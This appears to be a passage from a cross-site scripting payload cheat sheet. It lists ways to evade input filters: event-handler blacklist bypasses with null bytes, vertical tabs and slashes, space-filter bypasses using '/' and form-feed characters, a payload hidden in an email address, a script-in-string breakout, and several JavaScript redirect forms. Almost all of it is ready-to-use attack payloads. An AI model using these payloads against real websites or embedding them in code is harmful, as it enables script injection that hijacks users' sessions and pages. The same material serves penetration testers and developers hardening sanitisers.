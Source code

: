 ### Bypass onxxxx= blacklist

```javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>

// Bypass onxxx= filter with a null byte/vertical tab
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />

// Bypass onxxx= filter with a '/'
<img src='1' onerror/=alert(0) />
```

### Bypass space filter

```javascript
// Bypass space filter with "/"
<img/src='1'/onerror=alert(0)>

// Bypass space filter with 0x0c/^L
<svgonload=alert(1)>

$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```

### Bypass email filter

([RFC compliant](http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate))

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Bypass document blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
```

### Bypass using javascript inside a string

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

### Bypass using an alternate way to redirect

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```
